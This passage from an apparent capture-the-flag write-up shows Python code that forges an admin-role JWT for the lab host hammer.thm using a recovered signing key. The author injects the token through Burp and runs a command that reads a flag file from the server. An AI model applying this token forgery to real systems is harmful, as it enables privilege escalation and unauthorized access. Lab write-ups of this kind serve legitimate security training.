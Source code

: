```python
}
payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": 1756361762,
    "exp": 1756365362,
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "admin"
    }
}

token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)
print(token)
```
Just copy the format of the found jwt. Change the role to `admin`.

I run the script and check the output jwt on `https://www.jwt.io/`. Everything looks good. 

In burp replace the `Authorization` header and cookie `token` value with the forged jwt. Run the command `cat /home/ubuntu/flag.txt` and thats it! Got RCE.
{% endraw %}
___

